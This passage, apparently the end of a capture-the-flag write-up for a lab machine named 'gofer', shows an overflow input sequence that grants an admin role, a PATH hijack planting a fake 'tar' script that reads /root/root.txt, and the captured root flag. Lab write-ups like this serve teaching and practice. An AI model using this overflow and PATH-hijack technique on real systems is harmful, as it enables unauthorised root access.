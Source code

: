```c
        }
        else {
          puts("Access denied: you don\'t have the admin role!\n");
        }
      }
    }
  } while( true );
}
```

# Overflow sequence
```
OPTION 1:  INPUT: aaaaaaaaaaaaaaaaaaaaaaaaadmin
OPTION 3:  INPUT: NULL
OPTION 4:  INPUT: aaaaaaaaaaaaaaaaaaaaaaaaadmin
OPTION 8:  Access granted!
```

# Hijacking the curl command
```
echo "cat /root/root.txt" > tar
chmod +x tar
```
```
export PATH=/home/tbuckley:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
```
tbuckley@gofer:~$ which tar                                                                                                                                                  
/home/tbuckley/tar
```
# Root flag 
```
========================================


Your choice: 8

Access granted!
c487730d010f0b879047330b64e6089f
========================================

```

